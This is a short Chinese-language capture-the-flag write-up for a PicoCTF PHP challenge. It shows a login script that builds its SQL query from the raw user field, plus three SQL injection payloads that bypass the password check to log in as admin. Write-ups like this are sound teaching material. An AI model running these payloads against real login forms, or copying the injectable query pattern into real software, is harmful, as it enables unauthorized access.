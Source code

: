## PicoCTF 2013:PHP3

**分类：**脚本开发

## write-up

根据提示，我们可以访问`code.txt`该文件

```php
<?php
        if($_POST['user'] && $_POST['pass']) {
            mysql_connect("localhost", "root", "ctfhub") or die("Could not connect:" . mysql_error());
			mysql_select_db("ctfhub");
            $user = $_POST['user'];
            $pass = md5($_POST['pass']);
			$sql="select user from ctfhub where (user='$user') and (pw='$pass')";
			$result = mysql_query($sql);
            $query = @mysql_fetch_array($result);

            if($query['user']=="admin") {
                echo "<p>Logged in! Key:XXXXXXXX";
            }

            if($query['user']!="admin") {
                echo("<p>You are not admin!</p>");
            }
        }
    ?>
```

对于这道题目我们可以简单地修改将user参数就可以完成。这道题目以用户名和密码作为通行证。我们通过注释的方式将sql语句的语义改变就可以完成挑战。

`payload1:user=') UNION select user from ctf where (user='admin') #&pass=11`

`payload2:user=admin')#&pass=1`

`payload3:user=') union select 'admin'#&pass=1`





